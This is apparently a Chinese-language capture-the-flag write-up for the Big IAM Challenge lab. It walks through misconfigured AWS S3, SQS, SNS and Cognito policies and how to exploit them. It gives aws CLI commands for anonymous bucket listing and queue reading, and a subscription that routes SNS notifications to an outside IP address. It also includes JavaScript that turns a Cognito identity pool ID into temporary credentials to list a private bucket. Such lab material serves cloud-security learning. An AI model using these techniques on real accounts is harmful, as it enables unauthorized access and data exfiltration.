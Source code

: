 https://annevi.cn/2021/03/25/2021-spring-interview/







## 靶场


### Oss配置
https://bigiamchallenge.com/challenge/1
```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                }
            }
        }
    ]
}
```

1. 拼接oss得到路径
`http://thebigiamchallenge-storage-9979f4b.s3.amazonaws.com`
2. 使用aws console
`aws s3 ls s3://thebigiamchallenge-storage-9979f4b/files/  --no-sign-request`

### sqs配置
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": [
                "sqs:SendMessage",
                "sqs:ReceiveMessage"
            ],
            "Resource": "arn:aws:sqs:us-east-1:092297851374:wiz-tbic-analytics-sqs-queue-ca7a1b2"
        }
    ]
}
```

sqs(simple queue service)简单队列服务,表示允许任何主体发送和接收消息

`aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2`
接收消息

### sns配置
```json
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```
允许任何主体订阅通知,但是限制了邮箱后缀.

`aws sns subscribe --protocol http --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --notification-endpoint http://81.70.163.152/@tbic.wiz.io`

---
上面的服务好像挂了

> 根据官方文档的描述，在进行 Subscribe 时，如果当前和订阅的主题不在一个 AWS 账号下，还需要进行确认操作，在进行确认操作的时候，就需要使用主题返回的 Token 值了。
我们使用以下命令进行确认操作。
 `aws sns confirm-subscription --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --token 336412f37fb6`


### oss
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```

只允许admin列出桶,只要得到flag的key,那么就能读取到flag

---
大致意思是，匹配 PrincipalArn 的字符串是否为 arn:aws:iam::133713371337:user/admin，其他条件同第一题。

这里可以利用匿名访问来绕过这个限制，解法和第一题一致。

`aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request`

### cognito
```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": [
        "mobileanalytics:PutEvents",
        "cognito-sync:*"
      ],
      "Resource": "*"
    },
    {
      "Sid": "VisualEditor1",
      "Effect": "Allow",
      "Action": [
        "s3:GetObject",
        "s3:ListBucket"
      ],
      "Resource": [
        "arn:aws:s3:::wiz-privatefiles",
        "arn:aws:s3:::wiz-privatefiles/*"
      ]
    }
  ]
}
```
> AWS Cognito 是一项托管服务，可帮助开发人员轻松添加用户身份验证和授权功能到应用程序中。它提供了用于注册、登录和管理用户的功能，支持常见的身份验证方法，如用户名/密码、社交媒体登录和身份提供商集成。Cognito 还提供了用户身份验证的安全性、可伸缩性和可定制性，并与其他 AWS 服务集成，使开发人员能够构建安全可靠的应用程序。

> 根据官方文档的描述，要使用 Cognito 需要先创建一个 Amazon Cognito 身份池，然后填入创建的身份池 ID 去调用 SDK 获取临时凭证，最后通过临时凭证去操作资源。

只要获取到身份池id,就有操作权限了

```html
<!DOCTYPE html>
<html>
<head>
    <title>Cognito JavaScript SDK Example</title>
    <script src="https://sdk.amazonaws.com/js/aws-sdk-2.100.0.min.js"></script>
</head>
<body>
    <script>
        // 初始化AWS SDK配置
        AWS.config.region = 'us-east-1';
        AWS.config.credentials = new AWS.CognitoIdentityCredentials({
            IdentityPoolId: 'us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b',
        });
        // 获取临时凭证
        AWS.config.credentials.get(function(err) {
            if (!err) {
                // 凭证获取成功
                var accessKeyId = AWS.config.credentials.accessKeyId;
                var secretAccessKey = AWS.config.credentials.secretAccessKey;
                var sessionToken = AWS.config.credentials.sessionToken;

                // 进行后续操作，如访问S3
                accessS3(accessKeyId, secretAccessKey, sessionToken);
            } else {
                // 凭证获取失败
                console.error('Error retrieving credentials: ' + err);
            }
        });
        // 使用临时凭证访问S3
        function accessS3(accessKeyId, secretAccessKey, sessionToken) {
            var s3 = new AWS.S3({
                accessKeyId: accessKeyId,
                secretAccessKey: secretAccessKey,
                sessionToken: sessionToken,
            });
            var params = {
                Bucket: 'wiz-privatefiles',
            };
            s3.getSignedUrl('listObjectsV2', params, function(err, data) {
                if (!err) {
                    // S3存储桶列表获取成功
                    console.log(data);
                } else {
                    // S3存储桶列表获取失败
                    console.error('Error listing S3 buckets: ' + err);
                }
            });
        }
    </script>
</body>
</html>
```

